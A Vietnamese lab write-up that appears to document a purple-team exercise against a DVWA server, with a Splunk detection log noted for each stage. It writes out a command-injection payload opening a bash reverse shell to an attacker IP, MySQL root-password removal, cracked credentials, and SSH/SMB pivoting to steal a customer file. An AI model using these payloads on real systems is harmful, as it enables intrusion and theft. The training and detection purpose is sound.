# Kịch bản tấn công 
## Kịch bản 1 
### Lỏng config để dễ tấn công 
#### FW Rules 
- Thêm rule cho phép outbound tcp dport 22 từ interface eth1, 2, 3
- Thêm rule cho phép outbound icmp echo request từ interface eth1, 2, 3

-> Chạy 2 lệnh sau trên FW 
```
nft insert rule inet filter forward iifname '{ "eth1", "eth2", "eth3" }' icmp type echo-request accept
nft insert rule inet filter forward iifname '{ "eth1", "eth2", "eth3" }' tcp dport 22 accept
```
#### Cho phép login db trong dvwa bằng user root với không cần pw 
Chạy lệnh sau trên mariadb của web

`ALTER USER 'root'@'localhost' IDENTIFIED BY '';`
#### Thêm user `nhanvien1` với hash của pw vào trong db của dvwa 
Chạy lệnh sau trên mariadb của web

```sql
INSERT INTO users (
    user_id,
    first_name,
    last_name,
    user,
    password,
    avatar,
    last_login,
    failed_login,
    role,
    account_enabled
)
VALUES (
    6,
    'Nhan',
    'Vien',
    'nhanvien1',
    'd0970714757783e6cf17b26fb8e2298f',
    '/DVWA/hackable/users/nhanvien1.jpg',
    NOW(),
    0,
    'user',
    1
);
```
#### Thêm ip của srv01 trong file `.smbcred` của `cl01`

### Stage 1 
Ta dùng `nmap` để scan target expose những services gì 

-> target expose một http service ở port 80

**Log có thể phát hiện trên splunk:** log từ fw: một ip source kết nối liên tục đến fw 

### Stage 2 
Truy cập vào http service của target  

-> ta thấy được một trang login 

Ta dùng burp suite để thực hiện bruteforce password, thử với user `admin`

-> với password là `password` thì truy cập thành công vào target 

**Log có thể phát hiện trên splunk:** log từ web: một ip source thực hiện http post liên tục đến trang login 

### Stage 3 

Ta thấy có một tính năng ping: nhập ip vào và trả về kết quả của lệnh ping tới ip đó 



Từ đó, ta thử payload `8.8.8.8;pwd` để kiểm tra có thể thực hiện command injection không 

-> kết quả trả về có output của lệnh `pwd`, tức thực hiện command injection thành công 

Từ đó ta sẽ chèn payload kết nối reverse shell đến bản thân 

Ta thử payload `127.0.0.1;bash -c "bash -i >& /dev/tcp/192.168.245.100/443 0>&1"` thì không thấy kết nối đến port 4444 và response http service của target bị timeout 

-> đoán được rằng có thể fw chặn target kết nối ra ngoài, tuy nhiên thử open port 443 thay vì 4444, vì thường sẽ mở port 443 ra để internal truy cập web 

-> vì thế ta sử dụng payload sau `127.0.0.1;bash -c "bash -i >& /dev/tcp/192.168.245.100/443 0>&1"` và open port 443 tương ứng thì ta có được reverse shell thành công với user `www-data`



Ta thực hiện như sau để Stabilize reverse shell 
```
# Target
python3 -c 'import pty; pty.spawn("/bin/bash")'

Press Ctrl+Z

# Local machine
stty raw -echo; fg

Press Enter
```
**Log có thể phát hiện trên splunk:** log từ web: web kết nối đến ip bên ngoài; với data gửi đi không là http request 

### Stage 4 
Ta kiểm tra các internal service của target 

-> thấy được target mở port 3306 ở localhost, default port của mariadb 

Ta thử connect đến mariadb server bằng user `root`(user mặc định của mariadb) thì kết nối thành công mà không cần password 



**Log có thể phát hiện trên splunk:** log của db trong web: login bằng user root ở thời gian không phải giờ hành chính 

### Stage 5 
Kiểm tra các db và table tương ứng thì ta thấy được các credential của các users trong table users trong database `dvwa` 


Ta thử dùng một tool hash crack bât kì để crack các hash pw này thì ta biết được hash sử dụng là md5 và các password tương ứng 


Ta có được list các credential của các user là: 
- admin: password
- gordonb: abc123
- 1337: charley
- pablo: letmein
- smithy: password
- nhanvien1: 112233 

**Log có thể phát hiện trên splunk:** không có 
### Stage 6 
Thử recon target thì đọc được access log đến target trong `/var/log/apache2/access.log`

-> ta thấy được có một ip `10.10.10.11` query đến target, đây là một ip private 

-> đoán được đây là internal host trong mạng của web01 
**Log có thể phát hiện trên splunk:** không có 
### Stage 7 
Ta thử dùng list các  credentials có được trong `dvwa` để thử ssh đến `10.10.10.11` thì thành công với `nhanvien1: 112233`


**Log có thể phát hiện trên splunk:** ssh trong thời gian không phải thời gian hành chính/kết nối ssh ra ngoài từ web(một machine thường không kết nối ssh ra ngoài)

### Stage 8
Ta thực hiện enumerate thì thấy được có file `.smbcred` như sau: 


-> ta sử dụng `smbclient` kết nối đến `10.10.10.10`


Ta có được file `khachhang.csv` chứa thông tin khách hàng của target 


**Log có thể phát hiện trên splunk:** kết nối smb từ `10.10.10.11` trong thời gian không phải là giờ hành chính 
